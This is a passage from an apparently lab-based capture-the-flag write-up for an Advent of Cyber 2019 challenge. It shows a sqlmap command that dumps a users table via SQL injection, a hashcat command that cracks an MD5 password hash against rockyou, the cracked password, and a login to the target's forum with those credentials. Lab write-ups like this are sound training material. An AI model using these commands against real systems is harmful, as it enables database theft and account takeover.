    Observe that one of the tables is named *users*. The information we're looking for is here. I used this command to dump it: `sqlmap --batch -u http://10.10.249.7/ --forms -D social -T users --dump`

   ![screenshot_users](/2019AdventOfCyber/screenshots/day23/users.png?raw=true)

   > bigman@shefesh.com
   
3. What is Santa Claus' plaintext password?

   I used hashcat to find the password. Command: `hashcat -m 0 "f1267830a78c0b59acc06b05694b2e28" /usr/share/wordlists/rockyou.txt`

   > saltnpepper

4. Santa has a secret! Which station is he meeting Mrs Mistletoe in?

   I logged into the forum using Santa's E-mail address and password obtained in the previous 2 questions. Then I went through the messages to find what what I was looking for.

   ![screenshot_messages](/2019AdventOfCyber/screenshots/day23/messages.png?raw=true)
